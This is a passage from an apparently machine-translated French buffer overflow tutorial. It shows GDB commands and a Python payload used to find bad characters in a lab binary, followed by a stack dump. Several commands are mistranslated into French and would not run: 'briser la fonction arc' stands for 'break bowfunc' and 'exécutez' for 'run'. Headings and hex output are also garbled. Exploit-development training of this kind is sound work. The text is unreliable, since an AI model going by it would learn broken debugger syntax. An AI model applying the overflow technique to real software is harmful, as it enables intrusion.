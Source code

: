 Pour définir le point d'arrêt, nous donnons la commande "`break`" avec le nom de la fonction correspondante.

#### Point d'arrêt GDB

Point d'arrêt GDB

```
(gdb) briser la fonction arc

Point d'arrêt 1 à 0x56555551

```

Et maintenant, nous pouvons exécuter l'entrée nouvellement créée et regarder la mémoire.

#### Envoyer CARS

Envoyer CHARS

```
(gdb) exécutez $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd \xfe\xff" + "\x66" * 4')

Programme de démarrage : /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP> ...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash : avertissement : substitution de commande : octet nul ignoré dans l'entrée

Point d'arrêt 1, 0x56555551 dans bowfunc ()

```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons regarder la pile.

#### La pile

La pile

```
(gdb) x/2000xb $esp+500

0xffffd28a : 0xbb 0x69 0x36 0x38 0x36 0x00 0x00 0x00
0xffffd292 : 0x00 0x00 0x00 0x00 0x00 0x000x00 0x00
0xffffd29a : 0x00 0x2f 0x68 0x6f 0x6d 0x65 0x2f 0x73
0xffffd2a2 : 0x74 0x75 0x64 0x65 0x6e 0x74 0x2f 0x62
0xffffd2aa : 0x6f 0x77 0x2f 0x62 0x6f 0x77 0x33 0x32
0xffffd2b2 : 0x00 0x55 0x55 0x55 0x55 0x55 0x55 0x55
# |---> "\x55" commence

0xffffd2ba : 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2c2 : 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
<SNIP>

```
